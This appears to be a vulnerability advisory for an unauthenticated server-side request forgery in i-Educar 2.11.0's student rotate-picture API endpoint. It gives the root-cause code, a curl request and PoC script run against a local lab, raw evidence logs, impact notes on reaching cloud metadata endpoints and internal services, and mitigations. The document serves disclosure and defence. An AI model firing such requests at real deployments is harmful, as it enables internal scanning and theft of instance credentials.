

# Unauthenticated SSRF in `StudentRotatePictureController::rotate()`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-918 Server-Side Request Forgery (SSRF) — https://cwe.mitre.org/data/definitions/918.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N` = **8.6 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `POST /api/students/{student}/rotate-picture` — parameter(s): `url`, `angle`
- **Authentication:** none (verified unauthenticated; the route is not inside `auth:sanctum` and has no auth middleware)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

`StudentRotatePictureController::rotate()` reads the `url` request field and
passes it directly to `Image::make($url)`. Intervention Image then fetches the
URL from the i-Educar server. There is no scheme restriction, no host
allowlist and no DNS/private-range check, and the route is unauthenticated, so
any remote client can make the server issue HTTP requests to arbitrary
destinations (internal services, Docker network hosts, cloud metadata
endpoints). The request fires before any image parsing succeeds or fails,
which the PoC proves with a loopback callback server.

Prerequisite: the targeted student needs a row in `cadastro.fisica_foto`,
otherwise the controller dereferences `$picture->url` before reaching
`Image::make()`. The PoC seeds and removes that row itself; in real
deployments any student with a picture satisfies it.

## Root cause

`app/Http/Controllers/Api/StudentRotatePictureController.php:24`

```php
public function rotate(Request $request, LegacyStudent $student, UrlPresigner $presigner)
{
    $url = $request->input('url');
    $angle = $request->input('angle', 90);
    ...
    $image = (string) Image::make($url)->rotate($angle)->encode();
```

`routes/api.php:53` registers the route outside every authenticated group:

```php
Route::post('/students/{student}/rotate-picture', 'Api\StudentRotatePictureController@rotate');
```

There is no `filter_var($url, FILTER_VALIDATE_URL)` + host allowlist, no
`gethostbyname()`/private-range rejection, and no restriction to the local
filesystem or the application's own storage.

## Proof of concept

1. Start the PoC: it opens a callback HTTP server on a random loopback port,
   seeds `cadastro.fisica_foto` for demo student `3` (idpes `35`), and then
   sends the request with no session and no token:

   ```bash
   python3 i-explorar.py            # pick [06]
   # or standalone:
   python3 vulns/06-student-rotate-picture-ssrf/poc.py --target http://127.0.0.1:8080
   ```

   The request sent is equivalent to:

   ```bash
   curl -X POST "http://127.0.0.1:8080/api/students/3/rotate-picture" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "url=http://host.docker.internal:<callback-port>/ssrf-poc&angle=90"
   ```

2. Expected result: the callback server receives
   `GET /ssrf-poc` from the i-Educar container and the endpoint answers
   `HTTP 200 {"url":"/storage/ieducar/<filename>"}`.
3. The PoC removes the seeded picture row and the stored file afterwards.

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001721Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:21.396838+00:00
# host: -03
# target: http://127.0.0.1:8080
# callback server listening on 0.0.0.0:41811
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc SELECT ref_idpes FROM pmieducar.aluno WHERE cod_aluno = 3;

--- psql output ---
5
--- end psql output ---
# student 3 -> idpes 5
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc INSERT INTO cadastro.fisica_foto (idpes, caminho) VALUES (5, 'http://example.invalid/i_explorar_poc06.jpg') ON CONFLICT (idpes) DO UPDATE SET caminho = EXCLUDED.caminho;

--- psql output ---
INSERT 0 1
--- end psql output ---
# POST /api/students/3/rotate-picture (no session, no token)
# url=http://host.docker.internal:41811/ssrf-poc

### callback server received
method=GET path=/ssrf-poc
header: Host: host.docker.internal:41811
header: Connection: close
header: Accept-language: en
header: User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36

### rotate-picture response HTTP 200

--- body ---
{"url":"\/storage\/ieducar\/i_explorar_poc06.jpg"}
--- end body ---
$ docker compose exec -T php rm -f storage/app/public/ieducar/i_explorar_poc06.jpg

--- cleanup output ---
(empty)
--- end cleanup output ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc DELETE FROM cadastro.fisica_foto WHERE idpes = 5;

--- psql output ---
DELETE 1
--- end psql output ---
# finished_at: 2026-09-11T00:17:22.453296+00:00
```

## Screenshots



Caption: raw PoC log rendered as an image — the i-Educar container called
`GET /ssrf-poc` on the callback server and the endpoint returned the stored
image URL.

## Impact

A remote unauthenticated attacker can:

- scan and reach internal services on the Docker/application network
  (Postgres, Redis, Horizon, admin panels) and use the request as a blind port
  prober;
- reach cloud metadata endpoints (for example `169.254.169.254`) on
  deployments running in a cloud VM/container with IMDS reachable, exposing
  instance credentials;
- force the server to download large or slow resources (resource exhaustion);
- feed crafted image content to the image-processing backend, which is a
  further attack surface if the backend has parsing bugs.

The output of the fetched URL is not returned to the caller, so this is a
blind SSRF; the network reachability impact remains, and error/status side
channels are observable through response timing and status.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Reject non-HTTP(S) schemes and resolve the host before the request; deny
  loopback, link-local (169.254.0.0/16, fe80::/10), private ranges (RFC 1918),
  and the Docker network ranges unless explicitly allowlisted.
- Prefer accepting an uploaded file or a server-generated identifier instead
  of an arbitrary URL; if remote URLs are required, use an allowlist of known
  image hosts and disable redirects.
- Require authentication and authorization on the route: it mutates the
  student's picture and should at least be restricted to staff profiles that
  may edit that student.
- Disable or restrict cloud metadata access from the container network
  (IMDSv2 with hop limit 1, firewall rules).

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-918: https://cwe.mitre.org/data/definitions/918.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/06-student-rotate-picture-ssrf/README.md
